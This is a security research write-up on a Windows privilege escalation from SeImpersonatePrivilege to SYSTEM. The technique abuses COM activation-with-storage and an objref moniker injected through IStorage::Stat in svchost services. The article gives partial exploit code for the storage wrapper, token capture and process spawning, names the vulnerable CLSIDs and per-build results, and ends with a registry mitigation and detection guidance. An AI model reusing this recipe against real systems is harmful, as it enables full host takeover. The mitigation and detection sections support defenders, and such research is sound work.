


← ../ mcpmanagementservice-seimpersonate-system
chu@antisec:~/research$ cat mcpmanagementservice-seimpersonate-system
Objref-in-Stat: exploiting COM services in svchost for SeImpersonatePrivilege escalation → SYSTEM
Full analysis of the activation-with-storage primitive applied to McpManagementService, of its generalization through systematic svchost group enumeration — which revealed two additional exploitable services (CIeAxiInstallerService and PrintNotify) — and of the engineering of executing with the captured token. validated on server 2019, server 2022, server 2025 and windows 11 25H2, cold-start and session 0 included.
the exploitation model and the state of the art
Service accounts on windows carry SeImpersonatePrivilege: the
ability to assume the security context of whoever connects to them. the entire
exploit family known as potato abuses a single primitive derived from that
privilege:
the primitive — convince a process that already runs as SYSTEM to authenticate against a resource the attacker controls. impersonating the client turns the received token into code execution. the variants differ only in who the lured SYSTEM is and which resource it touches.
the classic implementations lured SYSTEM through different paths: coercion via
the MS-RPRN spooler (PrintSpoofer, opnum 65, with the
\\HOST/pipe/PATH normalization trick), the EFSR stream, generic DCOM
activation via OXID/DSA (GodPotato) and an SSPI hook (JuicyPotatoNG). on modern
builds, though, those paths were closed in a coordinated way:
- svchost groups exposing COM classes had their
ImpersonationLeveldowngraded to 2 (IDENTIFY) — theprintgroup went first, on 24H2+; - the
\pipe\spoolsslistener was removed from the epmapper on client builds; - OXID/DSA flow bindings started getting discarded;
- EFSR gained authentication checks on the service side and retired the old UUIDs.
the research question driving this article isn't how to bypass each mitigation
individually — it's how to identify COM services hosted in svchost that
still run at the default impersonation level (3 = IMPERSONATE) and accept
activation flows in which the service processes an attacker-marshaled object. the
answer took two phases: implementing the primitive against
McpManagementService (sections 4–7) and the systematic enumeration of
svchost groups, which surfaced two more services exploitable by the same recipe
(sections 8–9).
the vulnerability criterion: per-group impersonation in the registry
McpManagementService ("Universal Print Management Service") is a
SYSTEM service hosted in svchost -k McpManagementServiceGroup, with a
start type of demand, present by default on server 2022+, server 2025 and
modern windows 11. its main class is registered as follows:
; HKLM\SOFTWARE\Classes\CLSID\{A9819296-E5B3-4E67-8226-5E72CE9E1FB7}
(Default) = Universal Print Management Manager Class
AppID = {C08E4363-9771-4955-A002-09932AE4874B}
; HKLM\SOFTWARE\Classes\AppID\{C08E4363-...}
LocalService = McpManagementService
; HKLM\...\Svchost\McpManagementServiceGroup
→ subkey ImpersonationLevel AUSENTE = nível padrão 3 (IMPERSONATE)the relevant defense control is the ImpersonationLevel subkey under
the svchost group: when present, it sets the ceiling of the token the
service receives from clients; when absent, the platform default (3)
applies. this is the same policy Microsoft applied to the print group —
and this technique's vulnerability criterion boils down to one line:
criterion — no
ImpersonationLevelin the svchost group = SYSTEM within reach for a caller holdingSeImpersonatePrivilege, provided the class accepts the activation-with-storage flow. a value of2caps the callback token at IDENTIFY and kills the technique.
the recon fits in three registry commands (CLSID → AppID → LocalService → group → whether the subkey exists), reproducible on any target host with no additional elevation.
DCOM fundamentals: OBJREF, the objref moniker and activation-with-storage
the primitive leans on three DCOM mechanics that, in isolation, are documented and harmless behavior. this section rebuilds each one at the level of detail needed for section 4's step by step to be followed without gaps — and closes with the view of the complete data path during exploitation. every byte and string example below is real: captured by the section 8 probe during the validation runs.
3.1 ORPC: when a COM object crosses the process boundary
a COM object lives inside a process. when another process gets a reference to
it, what crosses the boundary isn't the object — it's a wire structure, the
OBJREF, which describes where the real interface lives
and which interface it is. the remote side receives a proxy; every
method called on the proxy becomes an ORPC call that travels back to the exporting
process and executes on the real object. two properties matter for the technique:
- ORPC calls execute on the exporter — whoever wrote the object chooses what happens when someone touches it;
- the callback's impersonation level is set by the caller (its call QOS) — that detail separates the exploitable vectors from the useless ones, as section 9.1 demonstrates.
3.2 the anatomy of the OBJREF
the standard marshaling OBJREF has a fixed header and a variable
body. below, the real bytes of the first OBJREF emitted by the probe during the
validation runs (before the base64 that forms the display name):
4d454f57 signature "MEOW" ← canonical signature of every OBJREF 01000000 flags 0x1 = OBJREF_STANDARD 00000000 00000000 c0000000 00000046 iid IID_IUnknown ← the marshaled interface 01000000 00000000 oxid ← identifies the exporting PROCESS af00dd80 e601abe8 535ecac3 59e28bb5 ipid ← the exact interface, inside it 0234 0000 68227c0f 5cb1bcee ad1def88 85006f00 ... saResAddr DUALSTRINGARRAY — the exporting OXID resolver's binding: hostname, IPv4, IPv6, MAC
field by field:
| field | bytes | role |
|---|---|---|
| signature | 4 | 0x574F454D — the "MEOW" constant, present in every OBJREF |
| flags | 4 | body format: 0x1 standard, 0x2 handler, 0x4 custom |
| IID | 16 | the marshaled interface (in the probe: IID_IUnknown) |
| OXID | 8 | identifies the exporting process — the target of the bind |
| IPID | 16 | identifies the specific interface within the exporting process |
| string binding | variable | DUALSTRINGARRAY with the hostname/addresses of the exporter's OXID resolver |
a note for defenders — the OBJREF string binding embeds the hostname and network addresses of whoever exports it. in this technique's flow, that identity travels inside the string the service receives in
Stat: a service that logs the resolved name is, without knowing it, logging the attacker's origin.
3.3 the OXID resolver: how the bind finds the process
an OXID, on its own, is just a number. what turns it into a connection is the
OXID resolver: an RPCSS service present on every windows machine, which keeps
the local table of OXID → string binding. when a process resolves an OBJREF, the
runtime walks three steps: (1) read the string binding embedded in the OBJREF;
(2) connect to the indicated OXID resolver; (3) trade the OXID/IPID for the
interface's concrete location — for local objects, a direct ALPC channel to the
exporting process. from there on, methods called on the local proxy become ORPC on
the exporter. this is also the service that processes activation requests — the same
RPCSS that receives the next section's CoGetInstanceFromIStorage.
the objref moniker and activation-with-storage
3.4 the objref moniker: the display name as a marshaling vector
monikers are COM's mechanism for locating and activating objects by name. the
objref moniker (CreateObjrefMoniker) has a peculiar property:
its GetDisplayName produces a string in the format
objref:<OBJREF in base64> — the name is the serialized
OBJREF itself. the standard MkParseDisplayName pipeline
recognizes the objref: prefix and dispatches it to the parser that
decodes the payload and performs the bind exactly as in the previous
section: it connects to the OXID/IPID and hands the interface to the caller. a real
example from the probe — the complete bait the Stat hands back to the
service:
objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAACvAN2A5gGr6FNeysNZ4ou1AjQA AGgifA9csbzurR3viIUAbwAHAFcASQBOAC0AUgBHAEIAQgBGADAAOQBSAEcASwBCAAAABwAx ADkAMgAuADEANgA4AC4AMAAuADEAOAAwAAAABwAyADgAMAA0ADoAMQA0AGQAOgA3ADgAZAA1 ADoANAA4ADIANwA6AGIAOAAzADIAOgA4ADkAMgBkADoANgBmADEANAA6ADEAOQA0ADkAAAAH... │ prefix │ base64: MEOW + flags + IID_IUnknown + OXID/IPID + binding │ "objref:"│ (hostname WIN-RGBBF09RGKB and the lab's addresses, in UTF-16)
3.5 activation-with-storage: the complete sequence
CoGetInstanceFromIStorage is DCOM's contract for "instantiate this
class and initialize it from this storage". the contract requires the class to
implement IPersistStorage or IPersistFile — and that's
where the door opens: the caller's storage is marshaled to the server, and
initialization executes storage methods on the caller. the complete
sequence:

the impersonation level these calls arrive with depends on the QOS the server used on them — and that's exactly the variable that separates the exploitable services from the useless ones, as section 9.1 quantifies.
3.6 assembling the primitive
the data path during exploitation, with the three mechanics stitched together:

with the fundamentals in place, the eight steps of the implementation (section 4) are the engineering of making this sequence happen reliably — including on cold-start and session 0.
the full path, in eleven
steps: 1 SeImpersonatePrivilege in the attacker's
process ·
2 STA + CoInitializeSecurity (IMPERSONATE) ·
3 IStorage wrapper with 18 instrumented slots ·
4 CreateObjrefMoniker → objref:... bait ·
5 demand-start (CoCreateInstance) ·
6 CoGetInstanceFromIStorage(wrapper) ·
7 the svchost resolves the name via MkParseDisplayName →
attacker's OXID/IPID ·
8 bind → QI/Release ORPC re-enters the
attacker ·
9 CoImpersonateClient → SYSTEM token (imp=3) ·
10 NtDuplicateToken → TokenPrimary ·
11 CreateProcessAsUserW →
nt authority\system.
the objref-in-Stat primitive, step by step
the reference implementation (the Tabellio tool, mcp mode, native C)
walks through below the design decisions behind each phase of the sequence — from
apartment setup to the final trigger.
4.1 the STA apartment and security configuration
hr = CoInitialize(NULL); // STA — obrigatório (§7, armadilha 1)
SOLE_AUTHENTICATION_INFO sai = { RPC_C_AUTHN_WINNT, RPC_C_AUTHZ_NONE, NULL };
hr = CoInitializeSecurity(NULL, 1, &sai, NULL,
RPC_C_AUTHN_LEVEL_CONNECT, // CONNECT é suficiente
RPC_C_IMP_LEVEL_IMPERSONATE, // o serviço também pode impersonar o chamador
NULL, EOAC_DYNAMIC_CLOAKING, NULL);two design points. the STA is a structural requirement: the ORPC
callbacks to the wrapper are delivered by the apartment's message pump, and it is
the blocking CoGetInstanceFromIStorage call that pumps them. the
RPC_C_IMP_LEVEL_IMPERSONATE is the level at which the attacker's
process presents itself as a COM client on outbound calls (with dynamic
cloaking) — the exact values from the reference recipe, used unchanged across
every validation run.
4.2 the real storage underneath the wrapper
CreateILockBytesOnHGlobal(NULL, TRUE, &plb);
StgCreateDocfileOnILockBytes(plb, STGM_CREATE|STGM_READWRITE|STGM_SHARE_EXCLUSIVE, 0, &stg);a real, functional IStorage is created in memory. after the capture,
the wrapper forwards every operation to it — the service's code proceeds without
errors, with no behavior that betrays the interception.
4.3 the wrapper: 18 vtable slots, all instrumented
IStorage exposes 18 vtable entries: IUnknown (0–2),
fourteen specific methods (3–16) and Stat (17). the wrapper replaces
all eighteen:
HRESULT mcp_QI(void* self, REFIID riid, void** ppv) {
Capture("QI"); // tenta capturar em todo callback
if (IsIUnknown(riid) || IsIStorage(riid)) { *ppv = self; return S_OK; }
*ppv = NULL;
return E_NOINTERFACE;
}
ULONG mcp_Release(void* self) {
Capture("Release"); // alguns caminhos do serviço só tocam Release
return 1;
}
HRESULT mcp_Stat(void* self, STATSTG* p, DWORD flags) {
Capture("Stat");
if (capturado)
return fwd_real(17, p, flags); // pós-captura: repassa (evita re-bind em loop)
memset(p, 0, sizeof(*p));
p->type = STGTY_STORAGE;
if (!(flags & STATFLAG_NONAME)) {
p->pwcsName = (LPOLESTR)CoTaskMemAlloc((wcslen(g_objref) + 1) * sizeof(WCHAR));
wcscpy(p->pwcsName, g_objref); // ← O GANCHO: nome = objref moniker
}
return S_OK;
}three decisions proved necessary. first: every method invokes
the capture routine — service paths touch QI/Release
without going through Stat in some sequences. second: Stat
injects the objref exactly once; after the capture, it forwards to
the real storage — re-injecting can make the service re-resolve the moniker in a
loop. third: the pwcsName must be born from
CoTaskMemAlloc — the caller frees it with
CoTaskMemFree, and a different allocator produces heap corruption
(0xC0000374) in the service's process.
4.4 creating the objref moniker
CreateObjrefMoniker((IUnknown*)&wrapper, &mon);
CreateBindCtx(0, &ctx);
// GetDisplayName é o slot 20 da vtable de IMoniker
// (IUnknown 3 + IPersist 1 + IPersistStream 4 + 12 métodos de IMoniker)
hr = ((fnGDN)vt[20])(mon, ctx, NULL, &name);
// name = "objref:T...:<OBJREF do wrapper — OXID/IPID do processo do atacante>"at this moment the wrapper becomes exported: the internal
marshaling of GetDisplayName registers the attacker's process OXID in
the local resolver's table, and the display name now carries everything another
process needs in order to connect back to it.
4.5 demand-start
if (SUCCEEDED(CoCreateInstance(&clsid_principal, NULL, CLSCTX_LOCAL_SERVER,
&IID_IUnknown, (void**)&punk))) {
punk->lpVtbl->Release(punk); // ativação simples: apenas acordar o svchost
}the service has a demand start type. this initial activation exists so
that the SCM launches it via the AppID's LaunchPermission — including
on cold-start, validated with the service stopped before every run.
4.6 the trigger and the CLSID fallback
for (c = 0; c < NCLSIDS && !capturado; c++) {
MULTI_QI qi = { .pIID = &IID_IUnknown };
hr = CoGetInstanceFromIStorage(NULL, &clsids[c], NULL, CLSCTX_LOCAL_SERVER,
(IStorage*)&wrapper, 1, &qi);
for (i = 0; i < 3 && !capturado; i++) Sleep(1000); // janela para o bind orquestrado
}on the service side, the sequence as reconstructed from observed behavior: the
activation arrives with the IStorage marshaled; during
initialization-from-storage, the service resolves the storage's
name through the moniker pipeline
(MkParseDisplayName); the objref: prefix routes to the
objref parser, which unmarshals the embedded OBJREF — the attacker's process
OXID/IPID — and performs the bind: QI/Release ORPC calls
delivered to the wrapper, on the attacker's STA, under the svchost's identity. the
final HRESULT of the activation is typically 0x80004002 —
irrelevant to the primitive, since the capture happens during the unmarshal, before
the return.
the loop tries multiple CLSIDs: the group's main class and — a result of the section 8 enumeration — classes from other groups that respond to the same primitive. each candidate that fails costs up to 3 seconds of window, which makes the ordering of the candidates part of the design: the first one should be the one with the highest observed success rate.
why it works in session 0, SSH and WinRM — the moniker bind is local ALPC: the svchost resolves the OXID through the machine's own resolver and connects to the attacker's process. nothing in the flow depends on a console, a parked desktop or the network. the full one-shot was validated over SSH with both processes in session 0.
capturing the SYSTEM token in the callback
static void Capture(const char* tag) {
if (g_pwned) return; // guard: capturar uma vez só
if (CoImpersonateClient() != S_OK) return; // sem direito de impersonar: fora
hTok = NtOpenThreadToken(GetCurrentThread(), ...); // token do thread ORPC (impersonado)
if (hTok && IsSystemTokenNt(hTok)) { // memcmp dos 12 bytes do SID S-1-5-18
hPrim = NtDuplicateToken(hTok, ..., TokenPrimary, ...);
if (hPrim) { /* primário disponível para execução */ sinaliza(); }
}
if (hTok) NtClose(hTok);
CoRevertToSelf();
}the five steps and the reasoning behind each:
CoImpersonateClient— the thread delivering the ORPC assumes the svchost's context. since the group allows imp=3, the token comes out at theSecurityImpersonationlevel: usable locally to open handles and create processes.NtOpenThreadToken— the relevant token is the thread one (the impersonated token), not the process one (which remains the attacker's).- raw SID check —
NtQueryInformationToken(TokenUser)and a memcmp of the 12 bytes of SIDS-1-5-18(01 01 00 00 00 00 00 05 12 00 00 00). the impersonation level is a ceiling: if the group has been lowered to 2, the callback still happens normally, but the token is an identification token, useless — the check makes the exploit degrade gracefully instead of failing further down the line. NtDuplicateToken→TokenPrimary— an impersonation token won't feedCreateProcess*; a primary one will. the duplication happens immediately, while the thread is still impersonated.- signaling and revert — an event unlocks the main flow and
CoRevertToSelfhands the context back. the guard prevents duplicate captures on subsequent callbacks.
executing with the primary token
6.1 CreateProcessWithTokenW doesn't allow handle inheritance
| API | bInheritHandles | observed result |
|---|---|---|
CreateProcessWithTokenW | TRUE | fails with ERROR_INVALID_PARAMETER (87) — a restriction of the family |
CreateProcessWithTokenW | FALSE | process created, but the child doesn't receive the pipe ends from STARTF_USESTDHANDLES → output lost (exit 0, silent) |
CreateProcessAsUserW | TRUE | process created with inherited stdin/stdout → full relay |
the resulting strategy: CreateProcessAsUserW(TRUE) as the primary
path (it's the one that allows output relay over an inherited pipe), with fallback
to CreateProcessWithTokenW(FALSE) — execution without relay, with
output collected by redirection inside the command.
6.2 the 250 ms race in the relay
the classic relay loop (PeekNamedPipe → no data? wait → child
exited? break) has a race condition: a whoami writes ~20 bytes and
exits inside the wait window. waking up on
WAIT_OBJECT_0, the loop breaks without reading the pipe
— the output was already there and got discarded. the telltale symptom is "escalated,
spawned the process, exit 0, silent". the fix is to drain the pipe after detecting
the child's exit:
else if (WaitForSingleObject(pi.hProcess, 250) == WAIT_OBJECT_0) {
while (PeekNamedPipe(hOutR, 0, 0, 0, &rest, 0) && rest) {
ReadFile(hOutR, buf, sizeof(buf), &n, NULL);
WriteFile(GetStdHandle(STD_OUTPUT_HANDLE), buf, n, &n, NULL);
}
break;
}the lesson worth recording: the writer dying doesn't empty the pipe — a relay's terminal state has to include a drain.
6.3 session 0 and remote channels
over SSH and WinRM, both the exploit and the child are born in session 0. nothing in the chain depends on a console or desktop: the moniker bind is local ALPC, the relay uses inherited anonymous pipes and the output rides back up the remote channel. for no-relay paths, the operational practice is to redirect inside the command itself.
implementation pitfalls
| # | pitfall | effect without the safeguard |
|---|---|---|
| 1 | wrong apartment — the ORPC callbacks are delivered on the STA; the thread calling CoGetInstanceFromIStorage must be the same one that called CoInitialize(NULL) (ole32 dispatches during the internal block) | callbacks never delivered; capture never fires; activation left hanging |
| 2 | pwcsName with the wrong allocator — the caller frees it with CoTaskMemFree | heap corruption (0xC0000374) in the service's process |
| 3 | re-injecting the objref after capture — Stat must forward to the real storage once capture succeeds | the service re-resolves the moniker; looping and erratic behavior |
| 4 | CoUninitialize after capture — ORPCs may still be in flight on the apartment | crash on teardown |
| 5 | hooking only Stat — some service versions touch QI/Release without going through Stat | capture never fires on some paths |
| 6 | assuming the callback is SYSTEM — the level depends on the group and the calling context (§9.1); the SID must be checked | duplicating a useless identification token |
| 7 | duplicating to impersonation instead of primary — CreateProcess* requires a primary token | error 5/1346 on process creation |
systematic enumeration of svchost groups
with the implementation against McpManagementService wrapped up, the
natural question became one of coverage: which other svchost groups are
exploitable by the same primitive? the answer came from registry
enumeration combined with empirical scanning, replicated across the lab's four
platforms.
8.1 methodology
registry phase. crossing four sources: (1) svchost groups
(HKLM\...\Svchost); (2) -k services running as
LocalSystem; (3) per-group ImpersonationLevel overrides; (4) COM
classes bound to those services (HKCR\AppID\* → LocalService,
HKCR\CLSID\* → AppID). the output is the candidate CLSID list —
SYSTEM classes in groups with no impersonation ceiling.

empirical phase. a standalone probe applies the full primitive to each candidate CLSID and reports, for each one, whether the callback fired, which SID came back, at which impersonation level and whether the primary token is duplicable. the classification convention:
| class | meaning |
|---|---|
cap=1, implvl=2 | callback with a SYSTEM token at Impersonation, primary duplicable — vulnerable |
cap=2, implvl=1 | callback with a SYSTEM SID but an Identification token — duplication fails; no escalation |
cap=0 | no callback (activation denied, service disabled, class without support for the flow) |
8.2 results per platform
| platform | classes without override | probed | cap=1 (vulnerable) | cap=2 (IDENTIFY) | cap=0 |
|---|---|---|---|---|---|
| server 2022 (20348.5622, CUs 09/2026) | 87 across 12 groups | 87 | 2 | 57 | 28 |
| server 2025 (26100.32230) | 101 across 16 groups | 98 | 2 | 72 | 24 |
| win 11 25H2 (26300.9550) | 111 across 20 groups | 111 | 2 | 84 | 25 |
| server 2019 (17763.9245, CUs 10/2026) | 67 across 11 groups | 67 | 2 | 53 | 12 |
desktop-only groups showed up in the 26300 enumeration
(IsolationSession, SDRSVC, rdxgroup), and a
relevant architectural fact emerged on 20348: the print group
has no override on that build (imp=3) — the downgrade is specific to 24H2+. server 2019 (17763.9245) repeated the profile: 67 classes across 11 groups, print still at imp=3 — and no McpManagementService (the service doesn't exist on that build).
8.3 the three vectors
on every platform, exactly two services per build answered with a SYSTEM token at Impersonation. the union of the three covers every build:
| # | CLSID | group / service | SYSTEM on |
|---|---|---|---|
| 1 | {A9819296-E5B3-4E67-8226-5E72CE9E1FB7} | McpManagementServiceGroup / McpManagementService | all three platforms |
| 2 | {854A20FB-2D44-457D-992F-EF13785D2B51} | print / PrintNotify | server 2022 and server 2019 (on 24H2+ the group is downgraded to 2) |
| 3 | {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} | AxInstSVGroup / AxInstSv — CIeAxiInstallerService (ActiveX Installer Service) | server 2025, win11 25H2 and server 2019 (only server 2022 ships the service DISABLED — activation = 0x80070422) |
PrintNotify is particularly notable: it's the class in the very group
Microsoft downgraded on 24H2+ — on server 2022, where the group remains at
imp=3, the technique delivers SYSTEM with end-to-end execution proof
(nt authority\system via CreateProcessAsUserW). and AxInstSv,
in turn, ships disabled by default on server 2022
(START_TYPE: 4 DISABLED) — but active on server 2019, where it delivered SYSTEM with execution proof. the behavior is non-monotonic across builds: each one has to be mapped by scanning, not by inference.
results: end-to-end execution and the IDENTIFY pattern
| target | build | vector | result |
|---|---|---|---|
| server 2022 | 20348.5622 (CUs 09/2026) | McpManagementService (primary) | nt authority\system (one-shot with relay) |
| server 2022 | 20348.5622 | PrintNotify (probe with execution proof) | nt authority\system |
| server 2025 | 26100.32230 | McpManagementService (primary) | nt authority\system |
| win 11 25H2 | 26300.9550 | McpManagementService (primary) | nt authority\system |
| win 11 25H2 | 26300.9550 | AxInstSv — CIeAxiInstallerService (probe with execution proof) | nt authority\system |
| server 2019 | 17763.9245 | PrintNotify + AxInstSv (probes with execution proof) | nt authority\system |
every run included a cold-start of the target service, session 0 (SSH) and artifact cleanup. the reference exploit iterates the candidate list in cost order — main class first, alternatives after — and stops at the first success.
9.1 the IDENTIFY pattern: which context the callback is born in
the scan's most significant finding is the 53–84 classes per build that fire the callback with a SYSTEM SID but an Identification token. the explanation lies in where in the service's flow the call to the attacker's proxy happens:
- McpManagementService and AxInstSv: the service processes the
activation-with-storage while impersonating the caller (the
attacker — whose
CoInitializeSecuritysets IMPERSONATE). outbound calls from that context — the moniker bind included — inherit that QOS, and the callbacks arrive at Impersonation (2): a usable token. - the remaining services: the callback is served by a worker thread with the process's default QOS (IDENTIFY). the process is SYSTEM, but the token obtained authorizes nothing.
the research question therefore refined itself from "does the callback happen?" (for ~75% of the tested classes: yes) to "is the callback born inside an impersonated context?" — a property of each service's code path, currently determinable only empirically. two consequences: (a) code execution inside the svchost happens even on the IDENTIFY classes — relevant for defense, since it's execution without escalation; (b) services that change their default QOS widen or close their exposure with no registry change at all.
mitigation and detection
10.1 primary mitigation: closing each group via the registry
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\McpManagementServiceGroup" ^
/v ImpersonationLevel /t REG_DWORD /d 2 /f
:: reinicie o serviço (ou a máquina). O teto do callback vira IDENTIFY e a escalada morre.the core recommendation is generalizing that control: audit every
svchost group hosting COM classes without an ImpersonationLevel
override. the primitive described here isn't specific to
McpManagementService — it's specific to the impersonation level, as the three
vectors of sections 8 and 9 demonstrate. the hardening Microsoft applied to the
print group on 24H2+ is the model: one registry value per group,
permanent.
10.2 structural telemetry
| signal | source | note |
|---|---|---|
| service start (EID 7036) for COM groups with no legitimate activity from the application, followed by class activation | System log + ETW COM | on hosts where Universal Print/ActiveX Installer isn't in use, any start is anomalous |
a SYSTEM process whose parent is a service-account process (not services.exe), created via CreateProcessAsUser/WithToken | Sysmon EID 1 (lineage + token) | the child has to exist for the attacker to harvest output — the lineage betrays the origin regardless of the binary |
| named pipe created + immediate read + chained spawn within the same window | Sysmon EID 17/18 | generic; gains strength when correlated with the signals above |
| activation of the group's COM classes by service accounts with no usage history | ETW COM / auditing | recon and trigger both travel through the same activation |
the right division of labor — binary evasion layers can strip strings, GUIDs and imports, but they can't strip the service start, the class activation or the SYSTEM process the attacker needs in order to harvest output. that's why effective defense against this family is registry-based (closing the group) and behavioral (lineage + activation correlation), not binary signatures.
conclusions
- vectors die; primitives survive. the 2024+ mitigations eliminated the classic implementations, but the primitive — making a SYSTEM service impersonate the attacker during a legitimate COM flow — remains intact wherever the impersonation level wasn't downgraded. the systematic enumeration showed the exposure isn't limited to a single service: three deliver SYSTEM across the four tested builds, with combined coverage of all of them.
- sticking to the DCOM contract is what makes it robust. the
primitive doesn't abuse a memory bug or a kernel race: it uses
CoGetInstanceFromIStorageas documented, a moniker as documented and impersonation the way the service itself practices it. that's why the same code crossed three platforms unchanged — and why mitigation had to happen via the registry. - the token level is a property of the callback's context. the discovery that ~75% of svchost COM classes answer the primitive — but with an IDENTIFY token — shifts the vulnerability criterion to a question about the service's code path: is the callback born inside an impersonated context? predicting that analytically is the natural direction for the next phase.
- the execution phase hides disproportionate pitfalls. the
inheritance restriction of
CreateProcessWithTokenW(error 87), the drain race in the relay and the requirement to enableSeAssignPrimaryTokenPrivilegeon the impersonated token consumed more debugging time than the entire COM primitive.
the reference code, the enumeration scripts and the complete validation matrix ship with the article in the project's repository. the immediate future direction is analytic prediction of the candidates (mapping what determines the impersonated context in each class's activation path) and expanding the matrix to other builds and server images with specific roles (IIS, SQL).
references and credits
- zcgonvh — DCOMPotato: the DCOM activation primitive with the attacker's object, the basis of objref-in-Stat
- itm4n — PrintSpoofer and the series on
SeImpersonatePrivilege - antonioCoco / splinter_code — JuicyPotatoNG (same family, pipe/SSPI pattern)
- Microsoft documentation:
CoGetInstanceFromIStorage,MkParseDisplayName, objref monikers, theOBJREFstructure, svchost and service groups, the per-groupImpersonationLevelpolicy
technical security research article. for use in authorized environments only — exploiting third-party systems without authorization is a crime. reference implementation: Tabellio v1.7.1,
mcpmode; enumeration and scanning tools in the project's repository.